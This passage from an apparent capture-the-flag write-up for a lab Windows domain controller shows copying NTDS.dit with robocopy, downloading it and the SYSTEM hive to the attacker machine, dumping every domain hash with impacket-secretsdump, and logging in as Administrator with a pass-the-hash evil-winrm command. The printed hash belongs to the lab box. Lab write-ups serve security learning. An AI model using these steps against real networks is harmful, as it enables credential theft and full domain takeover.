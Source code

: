We have to copy NTDS.dit from the newly created Z drive and then download both system.save and ntds.dit to our attacker machine:
```bash
robocopy /b z:\windows\ntds . ntds.dit
download system.save
download ntds.dit
```
![shell6](../assets/posts/baby/shell6.png)

Following from the download back to our attacker machine, we can utilise impacket-secretsdump to dump all domain credentials:
```bash
impacket-secretsdump -ntds ntds.dit -system system.save LOCAL
```
![dumped](../assets/posts/baby/dumped.png)


## Getting a shell as Administrator
The domain admin's NTLM has been dumped:
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
```
We can now use evil-winrm pth to login:
```bash
evil-winrm -i BabyDc.baby.vl -u Administrator -H "ee4457ae59f1e3fbd764e33d9cef123d"
```
![pwned](../assets/posts/baby/pwned.png)
PWNED!
